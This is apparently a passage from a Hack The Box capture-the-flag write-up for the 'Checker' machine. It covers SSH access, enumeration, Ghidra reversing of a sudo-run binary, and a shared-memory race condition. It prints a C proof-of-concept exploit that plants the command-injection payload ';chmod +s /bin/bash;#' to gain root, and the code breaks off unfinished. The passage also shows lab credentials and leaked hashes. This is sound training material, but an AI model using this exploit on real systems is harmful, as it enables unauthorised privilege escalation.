And now we were able to login as `reader` using the `password` and the `Verification code` from the `website`.

| Username | Password                |
| -------- | ----------------------- |
| reader   | hiccup-publicly-genesis |

```c
┌──(kali㉿kali)-[~]
└─$ ssh reader@10.129.57.127
(reader@10.129.57.127) Password: 
(reader@10.129.57.127) Verification code: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
/usr/bin/ip_tools.sh failed: exit code 2
reader@checker:~$
```

## user.txt

Having access via `SSH` as `reader` enabled us to grab the `user.txt`.

```c
reader@checker:~$ cat user.txt 
2eb1964a6237aa7e67ec4718529de2fe
```

## Enumeration

After submitting the `user flag` we moved on with some `basic enumeration`. As usual we checked the `group memberships`, the `home directory`, the `/etc/passwd` for additional `users` on the system and of course `sudo capabilities`.

```c
reader@checker:~$ id
uid=1000(reader) gid=1000(reader) groups=1000(reader)
```

```c
reader@checker:~$ ls -la
total 36
drwxr-x--- 4 reader reader 4096 Feb  6 04:22 .
drwxr-xr-x 3 root   root   4096 Jun 12  2024 ..
lrwxrwxrwx 1 root   root      9 Feb  6 04:07 .bash_history -> /dev/null
-rw-r--r-- 1 reader reader  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 reader reader 3771 Jan  6  2022 .bashrc
drwx------ 2 reader reader 4096 Jun 15  2024 .cache
-r-------- 1 reader reader   39 Jun 14  2024 .google_authenticator
drwxrwxr-x 3 reader reader 4096 Jun 15  2024 .local
-rw-r--r-- 1 reader reader  807 Jan  6  2022 .profile
-rw-r----- 1 root   reader   33 Feb 24 06:52 user.txt
```

```c
reader@checker:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
reader:x:1000:1000::/home/reader:/bin/bash
mysql:x:108:114:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:999:999::/var/log/laurel:/bin/false
```

While checking what options we had using `sudo` we saw that we could  execute `check-leak.sh` within `/opt/hash-checker/` using `sudo`.

```c
reader@checker:~$ sudo -l
Matching Defaults entries for reader on checker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User reader may run the following commands on checker:
    (ALL) NOPASSWD: /opt/hash-checker/check-leak.sh *
```

A quick test showed that we needed to provide a `username`.

```c
reader@checker:~$ cat /opt/hash-checker/check-leak.sh
#!/bin/bash
source `dirname $0`/.env
USER_NAME=$(/usr/bin/echo "$1" | /usr/bin/tr -dc '[:alnum:]')
/opt/hash-checker/check_leak "$USER_NAME"
```

```c
reader@checker:~$ sudo /opt/hash-checker/check-leak.sh
Error: <USER> is not provided.
```

We used `bob` as example and received the information about a `specific address` in `memory` used as `temp location`.

```c
reader@checker:~$ sudo /opt/hash-checker/check-leak.sh bob
Password is leaked!
Using the shared memory 0x24172 as temp location
User will be notified via bob@checker.htb
```

We also checked the other available files to see how we could `leverage` the `script` to our favor.

```c
reader@checker:/opt$ ls -la
total 20
drwxr-xr-x  5 root     root     4096 Jan 30 17:04 .
drwxr-xr-x 21 root     root     4096 Feb  6 04:22 ..
drwxr-xr-x 15 www-data root     4096 Feb  6 04:22 BookStack
drwxr-x--- 13 www-data www-data 4096 Jun 13  2024 TeamPass
drwxr-xr-x  2 root     root     4096 Jan 30 17:09 hash-checker
```

```c
reader@checker:/opt/hash-checker$ ls -la
total 68
drwxr-xr-x 2 root root  4096 Jan 30 17:09 .
drwxr-xr-x 5 root root  4096 Jan 30 17:04 ..
-r-------- 1 root root   118 Jan 30 17:07 .env
-rwxr--r-- 1 root root   141 Jan 30 17:04 check-leak.sh
-rwxr--r-- 1 root root 42376 Jan 30 17:02 check_leak
-rwx------ 1 root root   750 Jan 30 17:07 cleanup.sh
-rw-r--r-- 1 root root  1464 Jan 30 17:09 leaked_hashes.txt
```

The file `check_leak` was a binary which needed to investigate a few steps later.

```c
reader@checker:/opt/hash-checker$ file check_leak
check_leak: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f1d8ae448c936df395ad9e825b897965da88afd8, for GNU/Linux 3.2.0, with debug_info, not stripped
```

The file `leaked_hashes.txt` contained.. `hashes` - as expected.

```c
reader@checker:/opt/hash-checker$ cat leaked_hashes.txt 
$2b$10$rbzaxiT.zUi.e28wm2ja8OGx.jNamreNFQC6Kh/LeHufCmduH8lvy
$2b$10$Tkd9LwWOOzR.DWdzj9aSp.Bh.zQnxZahKel4xMjxLIHzdostFVqsK
$2b$10$a/lpwbKF6pyAWeGHCVARz.JOi3xtNzGK..GZON/cFhNi1eyMi4UIC
$2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
$2b$10$DanymKXfnu1ZTrRh3JwBhuPsmjgOEBJLNEEmLPAAIfG9kiOI28fIC
$2b$10$/GwrAIQczda3O5.rnGb4IOqEE/JMU4TIcy95ECSh/pZBQzhlWITQ.
$2b$10$Ef6TBE9GdSsjUPwjm0NYlurGfVO/GdtaCsWBpVRPnQsCbYgf4oU8a
$2b$10$/KLwuhoXHfyKpq1qj8BDcuzNyhR0h0g27jl0yiX7BpBL9kO.wFWii
$2b$10$Ito9FRIN9DgMHWn20Zgfa.yKKlJ.HedScxyvymCxMYTWaZANHIzvO
$2b$10$J025XtUSjTm.kUfa19.6geInkfiISIjkr7unHxT4V/XDIl.2LYrZ2
$2b$10$g962m7.wovzDRPI/4l0GEOviIs2WUPBqlkPgVAPfsYpa138dd9aYK
$2b$10$keolOsecWXEyDIN/zDPVbuc/UOjGjnZGblpdBPQAfZDVm2fRIDUCq
$2b$10$y2Toog209OyRWk6z7S7XNOAkVBijv3HwNBpKk.R1bPCYuR8WxrL66
$2b$10$O4OQizv0TVsWxWi26tg8Xu3SCS29ZEv9JqwlY5ED240qW8V0eyG7a
$2b$10$/1ePaOFZrcpNHWFk72ZNpepXRvXIi1zMSBYBGGqxfUlxw/JiQQvCG
$2b$10$/0az8KLoanuz3rfiN.Ck9./Mt6IHxs5OGtKbgM31Z0NH9maz1hPDe
$2b$10$VGR3JK.E0Cc3OnY9FuB.u.qmwFBBRCrRLAvUlPnO5QW5SpD1tEeDO
$2b$10$9p/iOwsybwutYoL3xc5jaeCmYu7sffW/oDq3mpCUf4NSZtq2CXPYC
$2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
$2b$10$8cXny33Ok0hbi2IY46gjJerQkEgKj.x1JJ6/orCvYdif07/tD8dUK
$2b$10$QAcqcdyu1T1qcpM4ZQeM6uJ3dXw2eqT/lUUGZvNXzhYqcEEuwHrvS
$2b$10$M1VMeJrjgaIbz2g2TCm/ou2srr4cd3c18gxLA32NhvpXwxo3P5DZW
$2b$10$rxp3yM98.NcbD3NeHLjGUujzIEWYJ5kiSynHOHo0JvUvXq6cBLuRO
$2b$10$ZOUUTIj7JoIMwoKsXVOsdOkTzKgHngBCqkt.ASKf78NUwfeIB4glK
```

So we downloaded `PSPY` to see what was going on when we executed the command in a second shell before me moved on `downloading` the file for `reverse engineering` it.

- [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)

```c
reader@checker:/dev/shm$ ./pspy64 
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
<--- CUT FOR BREVITY --->
2025/02/24 15:54:10 CMD: UID=0     PID=7910   | sudo /opt/hash-checker/check-leak.sh bob 
2025/02/24 15:54:10 CMD: UID=0     PID=7912   | 
2025/02/24 15:54:10 CMD: UID=0     PID=7911   | sudo /opt/hash-checker/check-leak.sh bob 
2025/02/24 15:54:10 CMD: UID=0     PID=7913   | dirname /opt/hash-checker/check-leak.sh 
2025/02/24 15:54:10 CMD: UID=0     PID=7916   | /usr/bin/tr -dc [:alnum:] 
2025/02/24 15:54:10 CMD: UID=0     PID=7915   | /usr/bin/echo bob 
2025/02/24 15:54:10 CMD: UID=0     PID=7914   | /bin/bash /opt/hash-checker/check-leak.sh bob 
2025/02/24 15:54:10 CMD: UID=0     PID=7917   | /bin/bash /opt/hash-checker/check-leak.sh bob 
2025/02/24 15:54:11 CMD: UID=0     PID=7919   | /opt/hash-checker/check_leak bob 
2025/02/24 15:54:11 CMD: UID=0     PID=7920   | mysql -u teampass_user -D teampass -s -N -e select email from teampass_users where pw = "$2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy" 
2025/02/24 15:54:11 CMD: UID=0     PID=7921   | /opt/hash-checker/check_leak bob
```

## Reverse Engineering

### Investigating the Binary

First of all we downloaded the `binary` using a `Python Web Server` on the box because `netcat` was not available.

```c
reader@checker:/opt/hash-checker$ python3 -m http.server 6666
Serving HTTP on 0.0.0.0 port 6666 (http://0.0.0.0:6666/) ...
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Checker/files]
└─$ wget http://10.129.57.127:6666/check_leak
--2025-02-24 16:48:55--  http://10.129.57.127:6666/check_leak
Connecting to 10.129.57.127:6666... connected.
HTTP request sent, awaiting response... 200 OK
Length: 42376 (41K) [application/octet-stream]
Saving to: ‘check_leak’

check_leak                                                 100%[========================================================================================================================================>]  41.38K  --.-KB/s    in 0.03s   

2025-02-24 16:48:55 (1.19 MB/s) - ‘check_leak’ saved [42376/42376]
```

We started with a simple `string` against the `binary` to print out the `ASCII readable stirngs`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Checker/files]
└─$ strings check_leak 
/lib64/ld-linux-x86-64.so.2
__gmon_start__
_ITM_deregisterTMCloneTable
_ITM_registerTMCloneTable
__asan_init
__asan_report_load1
strlen
__asan_report_store1
__asan_stack_malloc_5
__asan_stack_free_5
__asan_option_detect_stack_use_after_return
__asan_report_load8
fprintf
__asan_handle_no_return
snprintf
malloc
fwrite
strcpy
__asan_stack_malloc_3
fopen
strcmp
fclose
fgets
__asan_stack_malloc_0
__asan_report_store8
ctime
shmctl
strstr
strchr
puts
popen
free
pclose
strdup
fflush
__asan_unregister_globals
__asan_version_mismatch_check_v8
__asan_register_globals
mysql_fetch_row
mysql_error
mysql_init
mysql_close
mysql_real_connect
mysql_store_result
mysql_free_result
mysql_query
__cxa_finalize
__libc_start_main
srand
shmat
stdout
shmget
shmdt
sleep
getenv
unsetenv
stderr
perror
exit
__stack_chk_fail
libasan.so.6
libmysqlclient.so.21
libm.so.6
libc.so.6
GLIBC_2.34
GLIBC_2.4
GLIBC_2.2.5
libmysqlclient_21.0
PTE1
u+UH
AVAUATSH
[A\A]A^]
AVAUATSH
[A\A]A^]
AVAUATSH
[A\A]A^]
AVAUATSH
[A\A]A^]
1 32 1024 8 query:36
Error: %s
SELECT pw FROM teampass_users WHERE login = '%s';
Error storing result: %s
Memory allocation error.
1 32 256 7 line:76
Error opening file
1 32 8 7 now:105
shmget
shmat
Leaked hash detected at %s > %s
Failed to locate shared memory segment with key 0x%X. It may not exist or there may be insufficient permissions.
Unable to attach to shared memory segment with ID %d. Please check if the segment is accessible.
An error occurred while detaching from shared memory segment with ID %d.
Could not delete shared memory segment with ID %d. Please ensure you have the necessary permissions.
1 32 256 17 result_buffer:171
No shared memory segment found for the given address: 0x%X
Leaked hash detected
MYSQL_PWD
setenv
mysql -u %s -D %s -s -N -e 'select email from teampass_users where pw = "%s"'
Failed to allocate memory for command
Failed to execute MySQL query
Failed to read result from the db
Failed to allocate memory for result string
User will be notified via %s
Malformed data in the shared memory.
No hash detected in shared memory.
shmdt
DB_HOST
DB_USER
DB_PASSWORD
DB_NAME
/opt/hash-checker/leaked_hashes.txt
Error: Missing database credentials in environment
Usage: %s <USER>
Error: <USER> is not provided.
Error: <USER> is too long. Maximum length is 20 characters.
Password is leaked!
Using the shared memory 0x%X as temp location
User is safe.
User not found in the database.
*.LC4
check.c
*.LC30
*.LC24
*.LC3
*.LC9
*.LC32
*.LC35
*.LC21
*.LC2
*.LC41
*.LC36
*.LC37
*.LC26
*.LC42
*.LC12
*.LC10
*.LC38
*.LC22
*.LC17
*.LC14
*.LC40
*.LC7
*.LC23
*.LC13
*.LC31
*.LC1
*.LC20
*.LC18
*.LC11
*.LC29
*.LC27
*.LC6
*.LC28
*.LC34
*.LC39
*.LC33
*.LC19
*.LC25
*.LC15
:*3$"
GCC: (Ubuntu 11.4.0-1ubuntu1~22.04) 11.4.0
__lsan
kCurrentStackFrameMagic
_ZNK11__sanitizer10StackTrace5PrintEv
kWordSizeInBits
__local_asan_preinit
kMaxPathLength
_ZN11__sanitizer10StackTraceC4EPKmj
kModuleUUIDSize
kMaxSummaryLength
GetNextInstructionPc
kAsanGlobalRedzoneMagic
_ZN11__sanitizer10StackTrace11TAG_UNKNOWNE
kCacheLineSize
kAsanAllocaRightMagic
__asan
__dsan
_ZN11__sanitizer10StackTrace10TAG_CUSTOME
kAsanStackLeftRedzoneMagic
kAsanIntraObjectRedzone
__tsan
__memprof
kAsanStackRightRedzoneMagic
WillUseFastUnwind
__msan
_ZN11__sanitizer10StackTraceC4EPKmjj
__xray
GetPreviousInstructionPc
bool
__asan_init
Print
TAG_DEALLOC
kRetiredStackFrameMagic
kErrorMessageBufferSize
long int
trace
kAsanStackUseAfterScopeMagic
kMaxThreadStackSize
kExternalPCBit
unsigned char
kAsanArrayCookieMagic
kAsanContiguousContainerOOBMagic
long long unsigned int
__hwasan
GetCurrentPc
_ZN11__sanitizer10StackTrace9TAG_ALLOCE
_ZN11__sanitizer10StackTrace11TAG_DEALLOCE
_ZN11__sanitizer10StackTrace17WillUseFastUnwindEb
kFrameSize
kAsanShadowGap
StackTrace
kAsanStackMidRedzoneMagic
_ZN11__sanitizer10StackTrace20GetNextInstructionPcEm
kAsanStackAfterReturnMagic
kWordSize
size
short unsigned int
__sanitizer
__interception
kStackTraceMax
kAsanInternalHeapMagic
TAG_CUSTOM
_ZN11__sanitizer10StackTraceC4Ev
kAsanAllocaLeftMagic
kReleaseToOSIntervalNever
TAG_UNKNOWN
kAsanUserPoisonedMemoryMagic
__ubsan
_ZN11__sanitizer10StackTrace24GetPreviousInstructionPcEm
kAsanHeapFreeMagic
_ZN11__sanitizer10StackTrace12GetCurrentPcEv
TAG_ALLOC
kMaxSegName
kAsanHeapLeftRedzoneMagic
__dfsan
uptr
GNU C++14 11.4.0 -mshstk -mtune=generic -march=x86-64 -g -O2 -std=gnu++14 -fPIC -fno-builtin -fno-exceptions -fno-rtti -fomit-frame-pointer -funwind-tables -fvisibility=hidden -fno-ipa-icf -fcf-protection=full -fasynchronous-unwind-tables -fstack-protector-strong -fstack-clash-protection
kAsanInitializationOrderMagic
__scudo
../../../../src/libsanitizer/asan/asan_preinit.cpp
/build/gcc-11-XeT9lY/gcc-11-11.4.0/build/x86_64-linux-gnu/libsanitizer/asan
../../../../src/libsanitizer/asan
../../../../src/libsanitizer/sanitizer_common
sanitizer_internal_defs.h
sanitizer_common.h
sanitizer_stacktrace.h
asan_internal.h
asan_interface_internal.h
Scrt1.o
__abi_tag
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.0
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
asan_preinit.cpp
check.c
_sub_D_00099_0
_sub_I_00099_1
__FRAME_END__
_GLOBAL_OFFSET_TABLE_
_DYNAMIC
__GNU_EH_FRAME_HDR
puts
main
strcpy
__TMC_END__
_ITM_deregisterTMCloneTable
clear_shared_memory
_fini
mysql_close@libmysqlclient_21.0
__cxa_finalize@GLIBC_2.2.5
fclose
write_to_shm
fopen
__data_start
__bss_start
__stack_chk_fail@GLIBC_2.4
perror@GLIBC_2.2.5
popen
strchr
ctime
__asan_handle_no_return
mysql_fetch_row@libmysqlclient_21.0
check_bcrypt_in_file
_end
fgets
__gmon_start__
unsetenv@GLIBC_2.2.5
__asan_stack_malloc_0
__asan_report_store8
shmctl
snprintf
stdout@GLIBC_2.2.5
fflush
free
_edata
stderr@GLIBC_2.2.5
trim_bcrypt_hash
shmget@GLIBC_2.2.5
mysql_error@libmysqlclient_21.0
__asan_init
exit@GLIBC_2.2.5
__local_asan_preinit
mysql_query@libmysqlclient_21.0
fwrite
getenv@GLIBC_2.2.5
malloc
shmdt@GLIBC_2.2.5
__asan_stack_malloc_5
pclose
__asan_unregister_globals
mysql_free_result@libmysqlclient_21.0
__asan_report_load1
strstr
strdup
mysql_store_result@libmysqlclient_21.0
__asan_stack_malloc_3
__asan_stack_free_5
fetch_hash_from_db
__asan_option_detect_stack_use_after_return
shmat@GLIBC_2.2.5
__asan_report_load8
_ITM_registerTMCloneTable
__asan_register_globals
__dso_handle
strlen
fprintf
notify_user
__asan_report_store1
sleep@GLIBC_2.2.5
mysql_real_connect@libmysqlclient_21.0
_IO_stdin_used
mysql_init@libmysqlclient_21.0
__asan_version_mismatch_check_v8
srand@GLIBC_2.2.5
strcmp
__libc_start_main@GLIBC_2.34
.symtab
.strtab
.shstrtab
.interp
.note.gnu.property
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.plt.sec
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.preinit_array
.init_array
.fini_array
.dynamic
.data
.bss
.comment
.debug_aranges
.debug_info
.debug_abbrev
.debug_line
.debug_str
.debug_line_str
```

### Reversing with Ghidra

As next step we opened the `binary` in `Ghidra` to get a better understanding of it.


We started with the `main function` to get used to the program but there was nothing special in particular for us to find.

```c
undefined8 main(int param_1,ulong param_2)

{
  char cVar1;
  undefined4 uVar2;
  uint param1;
  char *pcVar3;
  char *pcVar4;
  char *pcVar5;
  char *pcVar6;
  size_t sVar7;
  char *pcVar8;
  char *extraout_RDX;
  
  pcVar3 = getenv("DB_HOST");
  pcVar4 = getenv("DB_USER");
  pcVar5 = getenv("DB_PASSWORD");
  pcVar6 = getenv("DB_NAME");
  if (*(char *)((param_2 + 8 >> 3) + 0x7fff8000) != '\0') {
    __asan_report_load8(param_2 + 8);
  }
  pcVar8 = *(char **)(param_2 + 8);
  if ((((pcVar3 == (char *)0x0) || (pcVar4 == (char *)0x0)) || (pcVar5 == (char *)0x0)) ||
     (pcVar6 == (char *)0x0)) {
    if (DAT_80019140 != '\0') {
      __asan_report_load8(&stderr);
    }
    fwrite("Error: Missing database credentials in environment\n",1,0x33,stderr);
    __asan_handle_no_return();
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (param_1 != 2) {
    if (*(char *)((param_2 >> 3) + 0x7fff8000) != '\0') {
      __asan_report_load8(param_2);
    }
    pcVar3 = *(char **)param_2;
    if (DAT_80019140 != '\0') {
      __asan_report_load8(&stderr);
      pcVar3 = extraout_RDX;
    }
    fprintf(stderr,"Usage: %s <USER>\n",pcVar3);
    __asan_handle_no_return();
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (pcVar8 != (char *)0x0) {
    cVar1 = *(char *)(((ulong)pcVar8 >> 3) + 0x7fff8000);
    if (cVar1 <= (char)((byte)pcVar8 & 7) && cVar1 != '\0') {
      __asan_report_load1(pcVar8);
    }
    if (*pcVar8 != '\0') {
      sVar7 = strlen(pcVar8);
      if (0x14 < sVar7) {
        if (DAT_80019140 != '\0') {
          __asan_report_load8(&stderr);
        }
        fwrite("Error: <USER> is too long. Maximum length is 20 characters.\n",1,0x3c,stderr);
        __asan_handle_no_return();
                    /* WARNING: Subroutine does not return */
        exit(1);
      }
      pcVar8 = fetch_hash_from_db(pcVar3,pcVar4,pcVar5,pcVar6,pcVar8);
      if (pcVar8 == (char *)0x0) {
        puts("User not found in the database.");
      }
      else {
        uVar2 = check_bcrypt_in_file("/opt/hash-checker/leaked_hashes.txt",pcVar8);
        if ((char)uVar2 == '\0') {
          puts("User is safe.");
        }
        else {
          puts("Password is leaked!");
          if (DAT_8001913c != '\0') {
            __asan_report_load8(&stdout);
          }
          fflush(stdout);
          param1 = write_to_shm(pcVar8);
          printf("Using the shared memory 0x%X as temp location\n",param1);
          if (DAT_8001913c != '\0') {
            __asan_report_load8(&stdout);
          }
          fflush(stdout);
          sleep(1);
          notify_user(pcVar3,pcVar4,pcVar5,pcVar6,param1);
          clear_shared_memory(param1);
        }
        free(pcVar8);
      }
      return 0;
    }
  }
  if (DAT_80019140 != '\0') {
    __asan_report_load8(&stderr);
  }
  fwrite("Error: <USER> is not provided.\n",1,0x1f,stderr);
  __asan_handle_no_return();
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

Then we had a look at a `function` called `write_to_shm` which looked kinda interesting to us. By the name we assumed that it used `shared memory` at some point.


```c
int write_to_shm(char *param_1)

{
  char cVar1;
  int iVar2;
  int __shmid;
  undefined8 *puVar3;
  time_t tVar4;
  char *param0;
  char *__s;
  size_t sVar5;
  char *pcVar6;
  undefined8 *puVar7;
  ulong uVar8;
  long in_FS_OFFSET;
  undefined8 local_88 [11];
  long local_30;
  
  puVar7 = local_88;
  if (__asan_option_detect_stack_use_after_return != 0) {
    puVar3 = (undefined8 *)__asan_stack_malloc_0(0x40);
    if (puVar3 != (undefined8 *)0x0) {
      puVar7 = puVar3;
    }
  }
  *puVar7 = 0x41b58ab3;
  puVar7[1] = "1 32 8 7 now:105";
  puVar7[2] = write_to_shm;
  uVar8 = (ulong)puVar7 >> 3;
  *(undefined4 *)(uVar8 + 0x7fff8000) = 0xf1f1f1f1;
  *(undefined4 *)(uVar8 + 0x7fff8004) = 0xf3f3f300;
  local_30 = *(long *)(in_FS_OFFSET + 0x28);
  tVar4 = time((time_t *)0x0);
  srand((uint)tVar4);
  iVar2 = rand();
  __shmid = shmget(iVar2 % 0xfffff,0x400,0x3b6);
  if (__shmid == -1) {
    perror("shmget");
    __asan_handle_no_return();
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  param0 = (char *)shmat(__shmid,(void *)0x0,0);
  if (param0 == (char *)0xffffffffffffffff) {
    perror("shmat");
    __asan_handle_no_return();
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  tVar4 = time((time_t *)0x0);
  if (*(char *)(((ulong)(puVar7 + 4) >> 3) + 0x7fff8000) != '\0') {
    tVar4 = __asan_report_store8(puVar7 + 4);
  }
  puVar7[4] = tVar4;
  __s = ctime(puVar7 + 4);
  sVar5 = strlen(__s);
  pcVar6 = __s + (sVar5 - 1);
  cVar1 = *(char *)(((ulong)pcVar6 >> 3) + 0x7fff8000);
  if (cVar1 <= (char)((byte)pcVar6 & 7) && cVar1 != '\0') {
    __asan_report_store1(pcVar6);
  }
  *pcVar6 = '\0';
  snprintf(param0,0x400,"Leaked hash detected at %s > %s\n",__s,param_1);
  shmdt(param0);
  if (local_88 == puVar7) {
    *(undefined8 *)(uVar8 + 0x7fff8000) = 0;
  }
  else {
    *puVar7 = 0x45e0360e;
    *(undefined8 *)(uVar8 + 0x7fff8000) = 0xf5f5f5f5f5f5f5f5;
    *(undefined *)puVar7[7] = 0;
  }
  if (local_30 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return iVar2 % 0xfffff;
}
```

We created a more `readable` and `partially reversed` version of the `function`.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <sys/shm.h>
#include <unistd.h>

#define SHM_SIZE 1024  // 0x400
#define SHM_PERMISSIONS 0666  // 0x3B6 (read/write for all users)

int write_to_shm(char *leaked_hash) {
    int shared_mem_id;
    char *shared_mem_ptr;
    time_t current_time;
    int random_key;
    char timestamp[100];

    // Generate a random key based on current time
    current_time = time(NULL);
    srand((unsigned int)current_time);
    random_key = rand() % 0xFFFFF;  // Limit to avoid exceeding function limit

    // Create a shared memory segment
    shared_mem_id = shmget(random_key, SHM_SIZE, IPC_CREAT | SHM_PERMISSIONS);
    if (shared_mem_id == -1) {
        perror("shmget failed");
        exit(EXIT_FAILURE);
    }

    // Attach to the shared memory segment
    shared_mem_ptr = (char *)shmat(shared_mem_id, NULL, 0);
    if (shared_mem_ptr == (char *)-1) {
        perror("shmat failed");
        exit(EXIT_FAILURE);
    }

    // Get the current timestamp
    current_time = time(NULL);
    strncpy(timestamp, ctime(&current_time), sizeof(timestamp) - 1);
    timestamp[strcspn(timestamp, "\n")] = '\0';  // Remove newline from timestamp

    // Write the leaked hash information to shared memory
    snprintf(shared_mem_ptr, SHM_SIZE, "Leaked hash detected at %s > %s\n", timestamp, leaked_hash);

    // Detach from shared memory
    shmdt(shared_mem_ptr);

    // Return the shared memory key
    return random_key;
}
```

### Functionality Breakdown

For our notes we created a short list to summarize our investigations.

- Generates a **pseudo-random key** (based on `time()`).
- Creates **a shared memory segment** (`shmget`).
- Attaches **to the memory** (`shmat`).
- **Writes a formatted message** including a timestamp and leaked hash.
- **Detaches from shared memory** (`shmdt`).
- Returns **the shared memory key** for potential later access.

### Potential Issues and Security Concerns

The function suffered from **Shared Memory Persistence** and did `not remove` the `shared memory segment` (`shmctl(__shmid, IPC_RMID, NULL)` is missing). This meant that multiple calls could be created in `orphaned shared memory segments`.

Another issue was the **Predictable Shared Memory Key**. The key was derived from `rand() % 0xfffff`, which was not cryptographically secure. Therefore we could `predict` the key if they knew the `process timing`.

Due to the lack of `synchronization` the `function` did not check if the `memory already existed`. This was particularly problematic because of the **Weak Memory Permissions** (`0666`) which meant that the segment was `readable` and `writeable` by `any user`.

And at last we assumed a possible **Format String Vulnerability** because if `param_1` came from `our input`, it should be sanitized to avoid `%` format string vulnerabilities.

- [https://dev.to/0xog_pg/using-shared-memory-in-linux-1p62](https://dev.to/0xog_pg/using-shared-memory-in-linux-1p62)
- [https://gist.github.com/mtak/4943802](https://gist.github.com/mtak/4943802)

## Privilege Escalation to root

### Winning the Race Condition

The idea to abuse the vulnerabilities above was to `run` the `same logic` to determine the `shared memory key` and instead of letting write `root` the `data` we tried to `preemptively inject` our own `payload`.

### Exploit Development

#### Proof of Concept (PoC)

We `reused` parts of the `function` in our `Proof of Concept (PoC)` exploit.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Checker/serve]
└─$ cat exploit.c
#include <stdio.h>
#include <sys/shm.h>
#include <sys/types.h>
#include <sys/ipc.h>
#include <time.h>
#include <stdlib.h>

#define MEMSIZE 0x400
#define MEMPERM 0x3B6
int main(void) {
    int shm_id; // Return location for shared memory https://www.csl.mtu.edu/cs4411.ck/www/NOTES/process/shm/shmget.html
    key_t mem_key;
    char* shm_ptr;
    int random_number;
    const char *payload = "Leaked hash detected at Sun Feb 23 16:18:11 2025 > ';chmod +s /bin/bash;#";

    // Get current time in epoch and feed it to the srand function
    time_t cTime = time(NULL);
    srand((unsigned int)cTime);

    // The key divded by a big number, so that it fits in the limits of SHM calls?
    random_number = rand();
    mem_key = (random_number % 0xfffff);

    // Allocate shared memory
    shm_id = shmget(mem_key, MEMSIZE, IPC_CREAT | MEMPERM);
    if (shm_id == -1) {
    printf("[!] shmget error \n");
    exit(1);
    }

    // We grab a pointer to the memory location
